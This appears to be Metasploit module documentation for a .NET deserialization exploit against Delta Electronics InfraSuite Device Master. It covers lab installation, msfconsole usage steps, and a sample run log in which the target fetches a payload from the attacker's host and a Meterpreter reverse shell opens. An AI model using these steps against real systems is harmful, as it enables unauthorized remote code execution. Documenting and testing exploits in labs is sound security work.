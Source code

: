 ## Vulnerable Application

Delta Electronics InfraSuite Device Master versions below `v1.0.5` are vulnerable to
an unauthenticated .NET deserialization vulnerability in the `Device-Gateway-Status` process which
listens on port `10100` and communicates over UDP. Its `ParseUDPPacket()` method reads user-controlled
data and passes what it determines to be the packet header to the `BinaryFormatter.Deserialize()` method without appropriate validation,
resulting in code execution as the user running the `Device-Gateway-Status` process.

### Installation Instructions

1. Unzip and run the installer from https://archive.org/details/infra-suite-device-master-00.00.01ax-64
2. Install all of the pre-requisites (Stack Builder is not needed) and reboot
3. Click `next` and ensure the three features, `Device-Monitor`, `Device-DataCollect`, and `Device-Gateway` are selected to install
4. The password on the next screen should say `Ems3000!`, but it is not needed for the exploit
5. Click `Next`, then `Install`
6. Click `Finish`, then wait for the processing of files to finish
7. Once the previous step is done, ensure `Yes, I want to restart my computer now` is checked and click `Finish`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/delta_electronics_infrasuite_deserialization`
4. Do: `set RHOST <IP>`
5. Do: `set INFRASUITE_PORT <PORT_NO>`
6. Do: `run`
7. You should get a meterpreter session.

## Options

### INFRASUITE_PORT

This is the option on which the web-based InfraSuite Device Manager listens. It is
only used to check the version of the software to determine exploitability. 80 by default

## Scenarios

### InfraSuite Device Master v01.00.00d on Windows 10 x64

```
msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting the login page to determine if target is Infrasuite Device Master...
[*] Target is InfraSuite Device Master. Now attempting to determine version.
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/xkRhewOXntAgYs
[*] Command Stager progress - 100.00% done (153/153 bytes)
[*] Client 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673) requested /xkRhewOXntAgYs
[*] Sending payload to 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673)
[*] Sending stage (175686 bytes) to 192.168.140.187
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.187:50409) at 2023-06-05 17:09:29 -0500
[*] Server stopped.

meterpreter > getuid
Server username: DESKTOP-R6RCNHH\space
meterpreter > sysinfo
Computer        : DESKTOP-R6RCNHH
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x86/windows
meterpreter >
```
